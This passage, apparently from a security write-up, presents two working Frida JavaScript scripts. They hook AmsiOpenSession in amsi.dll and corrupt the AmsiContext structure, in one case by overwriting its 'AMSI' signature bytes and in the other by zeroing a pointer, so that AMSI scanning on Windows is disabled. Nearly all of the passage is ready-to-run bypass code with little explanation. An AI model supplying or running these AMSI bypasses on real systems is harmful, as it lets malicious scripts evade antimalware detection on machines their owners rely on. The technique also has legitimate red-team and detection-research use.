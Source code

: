 Here's a script that corrupts the first 4 bytes of *AmsiContext* so that they contain something other than the signature value of "AMSI":

```javascript
//find AmsiOpenSession()
var amsi = Process.getModuleByName("amsi.dll");
var target = amsi.getExportByName("AmsiOpenSession");

var E_INVALIDARG = 0x80070057;

//hook AmsiOpensession()

Interceptor.attach(target, {
	onEnter: function(args) {
		//Replace the first four bytes of AmsiContext with "1337".
		//This will cause the signature check to fail and an error will be thrown.
		console.log("AmsiOpenSession() invoked! Let's cause problems :)");
		var buf = args[0];
		buf.writeByteArray(["1", "3", "3", "7"]);
	},
	onLeave: function(retval) {
		//Verify the E_INVALIDARG error was thrown by checking the function's return value.
		if (retval == E_INVALIDARG) {
			console.log("AmsiOpenSession() returned E_INVALIDARG; AMSI should now be disabled.");
			Interceptor.detachAll();
		}
	}
});
```

And finally, a script that writes 8 bytes of nulls to *AmsiContext+0x8*:

```javascript
//find AmsiOpenSession()
var amsi = Process.getModuleByName("amsi.dll");
var target = amsi.getExportByName("AmsiOpenSession");

var E_INVALIDARG = 0x80070057;

//hook AmsiOpensession()

Interceptor.attach(target, {
	onEnter: function(args) {
		//Replace the pointer at AmsiContext+0x8 with zeroes.
		//This will cause a sanity check to fail and an error will be thrown.
		console.log("AmsiOpenSession() invoked! Let's cause problems :)");
		var buf = args[0].add(0x8);
		buf.writeByteArray([0, 0, 0, 0, 0, 0, 0, 0]);
	},
	onLeave: function(retval) {
		//Verify the E_INVALIDARG error was thrown by checking the function's return value.
		if (retval == E_INVALIDARG) {
			console.log("AmsiOpenSession() returned E_INVALIDARG; AMSI should now be disabled.");
			Interceptor.detachAll();
		}
	}
});
```
